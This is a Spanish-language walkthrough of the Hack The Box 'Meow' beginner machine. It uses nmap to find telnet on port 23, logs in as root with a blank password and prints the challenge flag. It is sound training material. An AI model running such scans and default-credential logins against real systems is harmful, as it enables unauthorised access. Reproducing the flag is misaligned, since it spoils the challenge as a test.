

**Hack The Box** (HTB) es una plataforma en línea que permite a los entusiastas de la ciberseguridad practicar habilidades de hacking ético a través de desafíos y máquinas virtuales. 

El **Starting Point** es una sección de HTB diseñada para quienes inician en el mundo del hacking. Ofrece máquinas con desafíos accesibles, junto con guías y soporte de la comunidad, facilitando el aprendizaje de herramientas y metodologías esenciales.

En este artículo, nos enfocaremos en la máquina **Meow**, un desafío del Starting Point que nos permitirá aplicar nuestros conocimientos. Exploraremos los pasos necesarios para comprometer la máquina, desde la recopilación de información hasta el acceso al sistema, brindando una comprensión práctica de conceptos clave en ciberseguridad.

### HAPPY HACKING!



**Dificultad:** Very Easy

**Tags:** Telnet | Protocolos | Reconocimiento | Credenciales Débiles | Malas configuraciones


## Tareas:

1. ¿Qué significa el acrónimo VM?   
Respuesta: *Virtual Machine*

1. ¿Cómo se llama la herramienta que usamos para interactuar con el sistema operativo y emitir comandos a través de la línea de comandos, como por ejemplo cuando iniciamos nuestra conexión VPN a esta máquina? También se conoce como consola o shell.  
Respuesta: *Terminal*

1. ¿Qué servicio usamos para establecer nuestra conexión VPN en los laboratorios de HTB?  
Respuesta: *openvpn*

1. ¿Qué herramienta usamos para probar nuestra conexión al objetivo con una solicitud de eco ICMP?  
Respuesta: *ping*

1. ¿Cómo se llama la herramienta más común para encontrar puertos abiertos en un objetivo?  
Respuesta: *nmap*

1. ¿Qué servicio identificamos en el puerto 23/tcp al escanear la máquina víctima?  


Para esto utilizaremos la herramienta `nmap`

`Nmap` es una herramienta que permite escanear redes para identificar puertos, servicios y hosts. Se utiliza comúnmente en auditorías de seguridad y administración de redes.

```
kali@kali:~$ sudo nmap -p- -sS -sCV -T5 --open -vvv -n -Pn 10.129.178.47
```
| Opción     | Descripción                                                              |
|------------|--------------------------------------------------------------------------|
| `-p-`      | Escanea todos los puertos (del 1 al 65535).                            |
| `-sS`      | Realiza un escaneo de puertos en modo "SYN" (sigiloso).                |
| `-sCV`     | Ejecuta scripts predeterminados y detecta versiones de servicios.       |
| `-T5`      | Establece el nivel de velocidad del escaneo (Insane).              |
| `--open`   | Muestra solo los puertos que están abiertos.                            |
| `-vvv`     | Aumenta la verbosidad del output, mostrando más detalles.               |
| `-n`       | Evita la resolución de nombres DNS.                                     |
| `-Pn`      | No realiza un escaneo de "ping" para determinar si el host está activo. |


Resultado del escaneo:
```
PORT   STATE SERVICE REASON         VERSION
23/tcp open  telnet  syn-ack ttl 63 Linux telnetd
```

Se ha identificado el puerto 23 abierto asociado con el protocolo TCP, el cual esta utilizando el servicio `Telnet`

:::NOTE[RESPUESTA]
*telnet*
:::

- ¿Qué es el protocolo TCP?  
    El **Protocolo de Control de Transmisión (TCP)** es un protocolo de red que permite la comunicación confiable entre dispositivos.

- ¿Qué es el servicio Telnet?  
    Telnet permite a los usuarios acceder de manera remota a otros dispositivos a través de la red. Este protocolo es **orientado a conexión**, lo que significa que establece una conexión antes de la transmisión de datos, y proporciona una comunicación confiable entre el cliente y el servidor.   
    Sin embargo, Telnet transmite información en texto plano, lo que lo hace **vulnerable** a la interceptación.

7. ¿Qué username puede iniciar sesión en el objetivo a través de telnet con una contraseña en blanco?

    Respuesta: *root*

8. Envía la flag

Para esto seguiremos lo visto en la pregunta 7, el usuario que puede iniciar sesión en el servicio `telnet` sin utilizar contraseña es el usuario `root`

Ya sabemos que la máquina víctima con ip 10.129.178.47 tiene el puerto 23 abierto utilizando el servicio telnet

Por lo tanto utilizaremos el siguiente comando
```
kali@kali:~$ telnet 10.129.178.47
```
Nos dará el siguiente output

```
Trying 10.129.178.47...
Connected to 10.129.178.47.
Escape character is '^]'.

  █  █        ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█

Meow login: root
```

Una vez nos logeamos como `root` este es el resultado

```
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Sep  6 15:15:23 UTC 2021 from 10.10.14.18 on pts/0

root@Meow:~#
```

Ya tenemos acceso a la terminal `root` de la máquina `Meow`
Ahora solo tenemos que conseguir la flag.  
Daremos un vistazo con `ls`
```
root@Meow:~# ls
flag.txt  snap
```

Encontramos el archivo `flag.txt`, ahora utilizaremos el comando `cat` para leer su contenido.

```
root@Meow:~# cat flag.txt
b40abdfe23665f766f9c61ecba8a4c19
```
Copiamos la flag y la adjuntamos como respuesta de la tarea 8


### Felicitaciones por completar la máquina Meow de Hack The Box
Espero que este WriteUp te haya sido útil para adquirir conocimientos básicos de hacking, en próximos articulos estaré desarrollando el resto de máquinas del "Starting Point" de Hack The Box.  


